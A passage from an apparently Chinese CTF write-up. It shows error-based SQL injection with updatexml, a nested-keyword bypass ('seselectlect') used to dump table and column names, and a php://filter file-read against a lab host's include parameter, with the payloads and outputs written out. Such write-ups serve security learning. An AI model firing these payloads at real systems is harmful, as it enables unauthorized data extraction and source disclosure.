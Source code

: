 10. 可能存在报错注入，于是使用 updatexml 函数。继续修改 request 中请求头信息：
> `name=123'or updatexml(1,concat(0x7e,(select(7,8,9)),0x7e),1)#&pass=123`

    返回报错内容：string(34) "Operand should contain 1 column(s)"

    可能只有1列，尝试 `name=123'or updatexml(1,concat(0x7e,(select(7)),0x7e),1)#&pass=123`

    返回报错内容：`~7~`。确定格式。（0x7e：~ ）

11. 使用完整 SQL 语句测试：`name=123'or updatexml(1,concat(0x7e,(select(7) from dual ),0x7e),1)#&pass=123`,返回如下 SQL 错误。根据报错信息，说明可能存在关键字的替换，最有可能替换的是 select ,于是使用嵌套 select，即 seselectlect 替换 select，再次成功返回信息`~7~`。
> string(164) "You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near 'from dual)),1)#'' at line 1"

12. 通过获取表名，列名成功获得 flag。
```
name=test'and updatexml(1,concat(0x7e,(seselectlect group_concat(table_name) from information_schema.tables where table_schema=database()) ,0x7e),1)#&pass=xxxx

string(34) "XPATH syntax error: '~fl4g,users~'"
```
```
name=test'and updatexml(1,concat(0x7e,(seselectlect group_concat(column_name) from information_schema.columns where table_name='fl4g'),0x7e),1)#&pass=xxxx

# 返回信息：string(28) "XPATH syntax error: '~flag~'"
```

## 1.3 任意文件读取漏洞
### 1.3.1 afr_1
1. 访问本机 ip(172.19.0.1) 进入环境，发现重定向至了 ?p=hello，联想书中"病者多诡(HCTF 2016)"，很有可能类似，猜测存在 include 函数，p 可能是 page。
   
2. 使用 wappalyzer 插件获得网站的 Banner 信息，确定是 php。
   ![wappalyzer](afr_1_wappalyzer.png)

3. 使用 dirsearch 进行目录扫描，发现存在 index.php，且重定向至 ?p=hello
4. 于是尝试访问 `http://172.19.0.1/index.php`，重定向至了`http://172.19.0.1/?p=hello`，而访问`http://172.19.0.1/?p=index`则是报错。
   
5. 尝试使用 php 的 filter 获取 index.php,`http://172.19.0.1/?p=php://filter/read=convert.Base64-encode/resource=index`,获得数据`PD9waHAKCmlmKGlzc2V0KCRfR0VUWydwJ10pKSB7CiAgICBpbmNsdWRlIChzdHJpbmcpJF9HRVRbJ3AnXSAuICIucGhwIjsKfQplbHNlewogICAgaGVhZGVyKCdMb2NhdGlvbjogLz9wPWhlbGxvJyk7Cn0=`，解码后得
  ```
  <?php
  if(isset($_GET['p'])) {
    include (string)$_GET['p'] . ".php";
  }
  else{
    header('Location: /?p=hello');
  }
  ```
